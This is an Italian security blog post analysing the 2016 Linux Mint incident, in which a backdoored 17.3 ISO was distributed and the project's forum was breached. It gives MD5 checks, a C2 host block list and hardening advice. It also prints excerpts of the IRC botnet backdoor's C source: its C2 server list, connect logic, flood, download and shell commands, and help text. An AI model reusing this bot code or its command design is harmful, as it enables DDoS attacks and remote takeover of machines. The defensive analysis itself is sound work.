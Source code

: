 ```yaml
---
layout: post
author: thesp0nge
title: "Linux Mint, la ISO intorno al buco"
promotion: "Linux Mint ha subito una compromissione e alcune delle sue ISO contengono una backdoor. "
modified: 
featured: false
category: [Spinaci]
tags: [linux, linux mint, backdoor, opensource, vulnerability warning]
image:
  feature: mint.jpg
comments: true
share: true
---
```


Nella giornata di ieri, sul blog della distribuzione [Linux
Mint](http://www.linuxmint.com), viene
[annunciato](http://blog.linuxmint.com/?p=2994) che a seguito di un'intrusione
subita nella stessa giornata del 21 Febbraio, è stato possibile per
l'attaccante modificare la ISO della versione 17.3 della distribuzione,
inserendo una backdoor al suo interno.

Cosa ha funzionato. Sicuramente la comunicazione chiara e trasparente.
Ammettere di avere un problema, significa avere a cuore i propri utenti.

> The hacked ISOs are hosted on 5.104.175.212 and the backdoor connects to
> absentvodka.com.

Cosa non ha funzionato. Il loro programma di Vulnerability Management. Poi ci
sta, trovi l'attaccante bravo e succede che entra. Però se distribuisci una tua
distro Linux, i tuoi clienti si aspettano il top lato sicurezza informatica.

Comunque, dato che può succedere, se siete utilizzatori di questa distribuzione
Linux, controllate che l'MD5 dell'ISO installata sulle vostre macchine sia una
di queste:

{% highlight sh %}
6e7f7e03500747c6c3bfece2c9c8394f  linuxmint-17.3-cinnamon-32bit.iso
e71a2aad8b58605e906dbea444dc4983  linuxmint-17.3-cinnamon-64bit.iso
30fef1aa1134c5f3778c77c4417f7238  linuxmint-17.3-cinnamon-nocodecs-32bit.iso
3406350a87c201cdca0927b1bc7c2ccd  linuxmint-17.3-cinnamon-nocodecs-64bit.iso
df38af96e99726bb0a1ef3e5cd47563d  linuxmint-17.3-cinnamon-oem-64bit.iso
{% endhighlight %}

In caso contrario, riformattate da zero la macchina e cambiate tutte le
password delle web application a cui avete acceduto da quando avete installato
l'ISO compromessa.

## E il forum

In un [secondo post](http://blog.linuxmint.com/?p=3001), si da notizia che
anche il [forum](http://forums.linuxmint.com) è stato compromesso. Sono stati
quindi interessati i seguenti dati degli utenti:

{% highlight sh %}
Your forums username
An encrypted copy of your forums password
Your email address
Any personal information you might have put in your signature/profile/etc…
Any personal information you might written on the forums (including private topics and private messages)
{% endhighlight %}

Dai commenti, di utenti preoccupati, sembrerebbe esserci sempre lui di mezzo:
[WordPress](https://wordpress.org).

## La backdoor

Come da [post su Hacker News](https://news.ycombinator.com/item?id=11146257),
questo sarebbe il presunto [codice sorgente in
C](https://gist.github.com/thesp0nge/9f4ac5235b709c563e24) della backdoor
introdotta nella ISO di Mint.

Diciamo che è solo presunto, in quanto la segnalazione viene da un pentester di
Perth, tale [Anthony Cozamanis](https://www.linkedin.com/in/acozamanis) e non
ho capito il legame tra lui, la distribuzione e l'attacco.

Si parte subito molto bene. Definisco un po' di costanti che mi fanno
immaginare che si vada a parare nel territorio dei server IRC.

{%highlight c%}
#define STARTUP 1
#undef IDENT// Only enable this if you absolutely have to
#define FAKENAME "apt-cache"// What you want this to hide as
#define CHAN "#mint"// Channel to join
#define KEY "bleh"  // The key of the channel
int numservers=5; // Must change this to equal number of servers down there
char *servers[] = {
  "updates.absentvodka.com",
  "updates.mintylinux.com",
  "eggstrawdinarry.mylittlerepo.com",
  "linuxmint.kernel-org.org",
  "updates.absentvodka.com",
  (void*)0
};
{% endhighlight %}

Nel main, troviamo ad un certo punto, la preparazione delle informazioni una
connessione IRC e una routine, _identd()_ che non fa altro che aprire sulla
macchina compromessa, un demone sulla porta 113, solitamente utilizzata da
[identd](https://en.wikipedia.org/wiki/Ident_protocol).


{% highlight c %}
  nick=makestring();
  ident=makestring();
  user=makestring();
  chan=CHAN;
  key=KEY;
  server=NULL;
  sa:
#ifdef IDENT
  for (i=0;i<numpids;i++) {
    if (pids[i] != 0 && pids[i] != getpid()) {
      kill(pids[i],9);
      waitpid(pids[i],NULL,WNOHANG);
    }
  }
 pids=NULL;
 numpids=0;
  identd();
#endif
  con();
{% endhighlight %}

In poche parole, l'host compromesso si connette ad uno dei server IRC
specificati all'inizio, e si trasforma in uno zombie. L'attaccante, usando il
protocollo IRC, invia i comandi ai suoi zombie per fare _cose brutte_.

{% highlight c %}
struct FMessages { char *cmd; void (* func)(int,char *,int,char **); } flooders[] = {
  { "TSUNAMI", tsunami },
  { "PAN", pan },
  { "UDP", udp },
  { "UNKNOWN", unknown },
  { "NICK", nickc },
  { "SERVER", move },
  { "GETSPOOFS", getspoofs },
  { "SPOOFS", spoof },
  { "DISABLE", disable },
  { "ENABLE", enable },
  { "KILL", killd },
  { "GET", get },
  { "VERSION", version },
  { "KILLALL", killall },
  { "HELP", help },
{ (char *)0, (void (*)(int,char *,int,char **))0 } };
{% endhighlight %}

La backdoor viene fornita anche con un help molto parlante.

{% highlight c %}
void help(int sock, char *sender, int argc, char **argv) {
  if (mfork(sender) != 0) return;
  Send(sock,"NOTICE %s :TSUNAMI <target> <secs>                          = Special packeter that wont be blocked by most firewalls\n",sender); sleep(2);
  Send(sock,"NOTICE %s :PAN <target> <port> <secs>                       = An advanced syn flooder that will kill most network drivers\n",sender); sleep(2);
  Send(sock,"NOTICE %s :UDP <target> <port> <secs>                       = A udp flooder\n",sender); sleep(2);
  Send(sock,"NOTICE %s :UNKNOWN <target> <secs>                          = Another non-spoof udp flooder\n",sender); sleep(2);
  Send(sock,"NOTICE %s :NICK <nick>                                      = Changes the nick of the client\n",sender); sleep(2);
  Send(sock,"NOTICE %s :SERVER <server>                                  = Changes servers\n",sender); sleep(2);
  Send(sock,"NOTICE %s :GETSPOOFS                                        = Gets the current spoofing\n",sender); sleep(2);
  Send(sock,"NOTICE %s :SPOOFS <subnet>                                  = Changes spoofing to a subnet\n",sender); sleep(2);

  Send(sock,"NOTICE %s :DISABLE                                          = Disables all packeting from this client\n",sender); sleep(2);
  Send(sock,"NOTICE %s :ENABLE                                           = Enables all packeting from this client\n",sender); sleep(2);

  Send(sock,"NOTICE %s :KILL                                             = Kills the client\n",sender); sleep(2);
  Send(sock,"NOTICE %s :GET <http address> <save as>                     = Downloads a file off the web and saves it onto the hd\n",sender); sleep(2);
  Send(sock,"NOTICE %s :VERSION                                          = Requests version of client\n",sender); sleep(2);
  Send(sock,"NOTICE %s :KILLALL                                          = Kills all current packeting\n",sender); sleep(2);
  Send(sock,"NOTICE %s :HELP                                             = Displays this\n",sender);

  Send(sock,"NOTICE %s :IRC <command>                                    = Sends this command to the server\n",sender); sleep(2);
  Send(sock,"NOTICE %s :SH <command>                                     = Executes a command\n",sender); sleep(2);
  exit(0);
}
{% endhighlight %}

Una mitigazione fast & furious se pensate di avere delle Mint Linux installate
e compromesse nelle vostre reti?

Bloccate sui firewall perimetrali il traffico in uscita, verso gli host:

* updates.absentvodka.com
* updates.mintylinux.com
* eggstrawdinarry.mylittlerepo.com
* linuxmint.kernel-org.org
* updates.absentvodka.com

## Off by one

Questo incidente cosa ci deve insegnare? Da nuova benzina alla polemica open vs
closed sui temi di sicurezza? No, niente di tutto questo. Deve insegnare, che
quando metto online una serie di servizi, devo trattarli tutti con la stessa
attenzione, applicando politiche di sicurezza e hardening, facendo i dovuti
test del caso e applicando le patch.

Sono nozioni che ormai vengono ripetute allo sfinimento. Qualcuno le seguirà
mai?

Enjoy it.
